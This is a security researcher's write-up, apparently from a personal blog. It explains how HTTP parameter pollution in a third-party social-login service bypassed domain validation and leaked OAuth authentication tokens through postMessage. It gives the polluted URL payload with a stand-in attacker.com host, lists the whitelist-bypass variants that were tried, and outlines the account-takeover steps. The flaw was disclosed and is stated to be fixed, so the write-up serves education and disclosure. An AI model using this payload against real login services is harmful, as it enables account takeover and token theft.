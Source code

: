 ```yaml
---
title: How one Parameter Pollution bug left many apps vulnerable to Account Takeovers
date: 2024-02-01 06:00:00 +0100
categories: [Write-ups,OAuth]
tags: [parameter_pollution,oauth,postmessage]     # TAG names should always be lowercase
---
```


## INTRO
<p align="justify">While testing a private bug bounty program that enables users to log in using their social media accounts, I noticed that most of the OAuth flow happened on a completely different domain that didn’t belong to the target. Let’s call this domain “redacted.com”.</p>

<p align="justify">I did a quick search and found out that the “redacted.com” domain belongs to a cloud-based identity management service. This service offers its customers the ability to add a social login feature to their applications, among other things. I also saw that they have a Vulnerable Disclosure Program so I decided to take a closer look at the social login flow. If you’ve read my <a href="/posts/blog1/">previous blog post</a>, you know that I like testing for OAuth bugs.</p>

<p align="justify">I ended up finding a <b>HTTP parameter pollution</b> bug that allowed me to leak authentication tokens, leaving every app using the service vulnerable to account takeover attacks.</p>

## THE SOCIAL LOGIN FLOW
<p align="justify">When a user clicks on “Login with Google” on the target app I was initially testing, a new window opens and makes a request to <b>https://redacted.com/social-login</b>. The redacted.com domain then initiates the OAuth flow with Google and finally sends the user’s authentication token, along with other user information, back to the target app via a postMessage function. The target app receives this data and uses it to log in the user.</p>

<p align="justify">The request to https://redacted.com/social-login includes a “<b>domain</b>” parameter that contains a URL of the target application. Redacted.com verifies on the backend whether the provided URL matches a whitelisted URL. If you change the value to another domain (for example, “https://attacker.com”), you will receive an error message saying that it is an invalid domain and the login flow will be terminated.</p>

<p align="justify">If the URL passes the check, the OAuth flow is initiated, and redacted.com uses the domain value to set the postMessage’s targetOrigin parameter and send the user’s auth token to the target application. The page responsible for sending the token contained a script with the following code (I simplified the actual code for the blog post):</p>


```
var reqDomain = “https://target.com”; //the domain value is reflected here
var token = “login_token_here”;

opener.postMessage(token, reqDomain);
```


<p align="justify">This check is necessary because it prevents an attacker from simply modifying the domain parameter to "https://attacker.com" and having redacted.com send a victim’s authentication token and user data to this domain. However, it was flawed.</p>

## THE VULNERABILITY
<p align="justify">I tried a few common techniques to bypass this type of check, like setting the domain to ‘target.com.attacker.com’, ‘target.com@attacker.com’, and other variations but I still got the error message. Eventually, I found a way to bypass the check and send the data to an arbitrary domain using a <b>HTTP parameter pollution</b> attack.</p>

<p align="justify">A parameter pollution attack is a type of attack that is carried out by sending multiple parameters with the same name but with different values in a URL. For example, consider the following query string: <br><b>?domain=target.com&domain=attacker.com</b></p>

<p align="justify">In this example, there are two “domain” parameters, but each one has a different value. Different web servers behave in different ways when receiving multiple parameters with the same name. Some will take the first occurrence (“target.com”), some will take the last one (“attacker.com”), and some will read them as an array. This can sometimes cause unexpected behaviors that can be exploited by attackers.</p>

<p align="justify">To bypass the check on redacted.com, I added a second "domain" parameter with a different value:<br>
https://redacted.com/social-login?<b>domain</b>=https://target.com&<b>domain</b>=https://attacker.com</p>

<p align="justify">This time, the request did not cause an error and the response contained the following code:</p>


```
var reqDomain = “https://target.com,https://attacker.com”;
var token = “login_token_here”;

opener.postMessage(token, reqDomain);
```


<p align="justify">As you can see, the reqDomain variable now has the <b>two URLs</b> separated by a comma. That’s a good sign (for us at least)! I can only guess what’s causing this bypass since I don’t have access to the backend code but it’s clear that only the first domain value is validated while the second malicious domain is ignored. However, both values are returned as a comma-separated string. In this case it only worked when the first domain value was set to a valid whitelisted URL. If you switched the values, you would get an error message again.</p>

<p align="justify">Cool, we found a way to bypass the URL validation and get an unintended result. So how can we exploit this now? Our goal is to leak the authentication token, and to do so, we need to manipulate the postMessage targetOrigin parameter to send the message to a domain under our control.</p>

<p align="justify">At this point I wondered what would happen if we set the second domain parameter to "<b>@attacker.com</b>". If that resulted in a URL like "https://target.com,@attacker.com", it would technically be a valid URL, since the part before "@" would be interpreted as a username/password and the part after "@" would be the URL's domain.</p>

![url-structure](/assets/images/url-struct.jpg)

<p align="justify">Sure enough, this actually worked! Sending a request to <b>https://redacted.com/social-login?domain=https://target.com&domain=@attacker.com</b> resulted in the following response, enabling attacker.com to receive a message containing the authentication token:</p>



```
var reqDomain = “https://target.com,@attacker.com”;
var token = “login_token_here”;

opener.postMessage(token, reqDomain); //sends token to attacker.com
```




## EXPLOITATION

<p align="justify">To exploit this vulnerability, an attacker can trick a victim into initiating the OAuth flow from their malicious domain by opening a new window and requesting the URL with the polluted parameters.
Once redacted.com receives the authentication token, it will send it to the attacker's domain via the postMessage() function. The attacker can then use this leaked token to gain unauthorized access to the victim's account.</p>

<p align="justify">If the victim has previously authorized Google or any other social provider to share their data/tokens with redacted.com, the token will be sent automatically to the attacker without needing further user interaction.</p>

<p align="justify">I don't know the exact number of apps that use this third-party service for their social login feature, but every app that did was vulnerable to account takeovers because of this basic but impactful bug.</p>

## CONCLUSION
<p align="justify">HTTP Parameter Pollution is a simple bug type, but it can have a big security impact. I’ve used it a few times before to bypass similar checks, so it’s definitely a good idea to keep it in your bag of tricks.</p>

<p align="justify">I reported the bug to the third-party service through their Vulnerable Disclosure Program and it is now fixed. However, I didn’t report the bug to the private bug bounty program I was testing. Mainly because I didn't want them to close my report as ‘Informative’ or ‘N/A’ since the vulnerability was out of their control. I kind of regret not reporting it now, but at the time, I guess I cared more about my platform stats than getting a potential bounty. What would you have done in this situation?</p>

<br>
<p align="justify">To wrap up, I'm also including a list of helpful resources for those of you who want to learn more about HTTP Parameter Pollution, OAuth and OAuth vulnerabilities.</p>

- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution
- https://book.hacktricks.xyz/pentesting-web/parameter-pollution

<br>

- https://developer.okta.com/blog/2017/06/21/what-the-heck-is-oauth
- https://portswigger.net/web-security/oauth
- https://www.oauth.com/
- https://www.rfc-editor.org/rfc/rfc6749

<br>

- https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
- https://ninetyn1ne.github.io/2022-02-21-oauth-postmessage-misconfig/
- https://ysamm.com/?p=763
- https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover
- https://0xn3va.gitbook.io/cheat-sheets/web-application/oauth-2.0-vulnerabilities
- https://blog.securityinnovation.com/pentesters-guide-to-evaluating-oauth-2.0 
- https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com 
- https://blog.dixitaditya.com/oauth-account-takeover 

